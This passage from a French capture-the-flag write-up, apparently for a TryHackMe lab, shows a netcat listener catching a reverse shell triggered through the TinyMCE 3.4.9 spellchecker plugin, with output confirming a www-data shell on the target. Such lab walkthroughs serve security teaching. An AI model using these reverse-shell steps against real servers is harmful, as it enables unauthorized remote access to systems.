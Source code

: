 ```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port pour établir une connexion avec le reverse shell.   

![page10](./Task1-10.png) 

On exécute  le reverse shell à partir du correcteur d'orthographe.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.172.157] 51979
bash: cannot set terminal process group (1057): Inappropriate ioctl for device
bash: no job control in this shell
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ 
```
